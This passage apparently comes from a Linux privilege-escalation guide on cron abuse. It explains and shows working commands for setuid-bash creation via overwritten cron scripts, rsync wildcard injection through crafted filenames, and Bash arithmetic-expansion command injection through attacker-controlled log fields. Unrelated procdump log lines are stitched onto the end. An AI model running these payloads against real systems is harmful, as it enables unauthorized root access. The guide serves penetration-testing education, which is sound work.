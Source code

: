 ```bash
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/overwrite.sh
#Wait cron job to be executed
/tmp/bash -p #The effective uid and gid to be set to the real uid and gid
```

### Cron using a script with a wildcard (Wildcard Injection)

If a script is executed by root has a “**\***” inside a command, you could exploit this to make unexpected things (like privesc). Example:

```bash
rsync -a *.sh rsync://host.back/src/rbd #You can create a file called "-e sh myscript.sh" so the script will execute our script
```

**If the wildcard is preceded of a path like** _**/some/path/\***_ **, it's not vulnerable (even** _**./\***_ **is not).**

Read the following page for more wildcard exploitation tricks:

[[wildcards-spare-tricks.md]]

### Bash arithmetic expansion injection in cron log parsers

Bash performs parameter expansion and command substitution before arithmetic evaluation in ((...)), $((...)) and let. If a root cron/parser reads untrusted log fields and feeds them into an arithmetic context, an attacker can inject a command substitution $(...) that executes as root when the cron runs.

- Why it works: In Bash, expansions occur in this order: parameter/variable expansion, command substitution, arithmetic expansion, then word splitting and pathname expansion. So a value like `$(/bin/bash -c 'id > /tmp/pwn')0` is first substituted (running the command), then the remaining numeric `0` is used for the arithmetic so the script continues without errors.

- Typical vulnerable pattern:
  ```bash
  #!/bin/bash
  # Example: parse a log and "sum" a count field coming from the log
  while IFS=',' read -r ts user count rest; do
      # count is untrusted if the log is attacker-controlled
      (( total += count ))     # or: let "n=$count"
  done < /var/www/app/log/application.log
  ```

- Exploitation: Get attacker-controlled text written into the parsed log so that the numeric-looking field contains a command substitution and ends with a digit. Ensure your command does not print to stdout (or redirect it) so the arithmetic remains valid.
  ```bash
  # Injected field value inside the log (e.g., via a crafted HTTP request that the app logs verbatim):
  $(/bin/bash -c 'cp /bin/bash /tmp/sh; chmod +s /tmp/sh')0
  # When the root cron parser evaluates (( total += count )), your command runs as root.
  ```

### Cron script overwriting and symlink


[20:20:58 - WARN]: Procdump not running with elevated credentials. If your uid does not match the uid of the target process procdump will not be able to capture memory dumps
[20:20:58 - INFO]: Timed:
[20:21:00 - INFO]: Core dump 0 generated: ./sleep_time_2021-11-03_20:20:58.1714